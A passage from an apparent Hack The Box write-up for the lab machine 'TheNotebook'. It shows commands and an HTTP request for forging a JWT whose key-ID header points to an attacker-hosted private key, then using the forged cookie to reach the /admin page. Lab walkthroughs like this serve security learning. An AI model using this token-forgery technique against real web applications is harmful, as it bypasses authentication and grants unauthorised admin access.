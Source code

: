 ```bash

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ cat token.signature
dSB9WWMQFh66xXCbF0HpTMkSNo4ojWleQIFktxL1cczrLy9rhwvuKe42Zb4WxBsBbHB2CtH-YWZYXAOCRQawVGVgTDg-X9NHPk0yOsPUw4XOW1w1fH2Hs_xFE66OpYuboNX0wW-twqN_6jN18IwiJ3WYmES0ISEbqOEfeE_kJ0ujX2Z4d76Y2WPD-SHOi60Gj1QA-PrfTFSaepeMhze0Zg4TSfUDrV78S4DxQNJD5-i_P2MMARMM1qd7C6GJoDQyq4hw8l2fSYWgfHy7uBtjiG7RdDhhPGPHmvlfBzy7hFEkmLGcrupEV3IWpwmeK2nrST_O7XYXyeaMaTV_JUClrA

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yNC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Im1hb3V0aXMiLCJlbWFpbCI6Im1hb3V0aXNAaGFja3RoZWJveC5odGIiLCJhZG1pbl9jYXAiOjF9.dSB9WWMQFh66xXCbF0HpTMkSNo4ojWleQIFktxL1cczrLy9rhwvuKe42Zb4WxBsBbHB2CtH-YWZYXAOCRQawVGVgTDg-X9NHPk0yOsPUw4XOW1w1fH2Hs_xFE66OpYuboNX0wW-twqN_6jN18IwiJ3WYmES0ISEbqOEfeE_kJ0ujX2Z4d76Y2WPD-SHOi60Gj1QA-PrfTFSaepeMhze0Zg4TSfUDrV78S4DxQNJD5-i_P2MMARMM1qd7C6GJoDQyq4hw8l2fSYWgfHy7uBtjiG7RdDhhPGPHmvlfBzy7hFEkmLGcrupEV3IWpwmeK2nrST_O7XYXyeaMaTV_JUClrA" > token.jwt
```

The RSA private key was renamed to the value specified within the token and then it was hosted:

```bash
┌──(kali㉿kali)-[~/…/box/TheNotebook/exploit/keys]
└─$ cp jwtRSA256-private.pem privKey.key

┌──(kali㉿kali)-[~/…/box/TheNotebook/exploit/keys]
└─$ sudo python3 -m http.server 80
```

The **cookie containing the current JWT was replaced** with the self signed one and then the `/admin` page was visited:

```
GET /admin HTTP/1.1
Host: 10.10.10.230
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: uuid=fc6beb6e-c388-4e19-b0d7-9587a82dac02; auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yNC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Im1hb3V0aXMiLCJlbWFpbCI6Im1hb3V0aXNAaGFja3RoZWJveC5odGIiLCJhZG1pbl9jYXAiOjF9.dSB9WWMQFh66xXCbF0HpTMkSNo4ojWleQIFktxL1cczrLy9rhwvuKe42Zb4WxBsBbHB2CtH-YWZYXAOCRQawVGVgTDg-X9NHPk0yOsPUw4XOW1w1fH2Hs_xFE66OpYuboNX0wW-twqN_6jN18IwiJ3WYmES0ISEbqOEfeE_kJ0ujX2Z4d76Y2WPD-SHOi60Gj1QA-PrfTFSaepeMhze0Zg4TSfUDrV78S4DxQNJD5-i_P2MMARMM1qd7C6GJoDQyq4hw8l2fSYWgfHy7uBtjiG7RdDhhPGPHmvlfBzy7hFEkmLGcrupEV3IWpwmeK2nrST_O7XYXyeaMaTV_JUClrA
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

![Pasted image 20210501003628.png](../../zzz_res/attachments/Pasted_image_20210501003628.png)
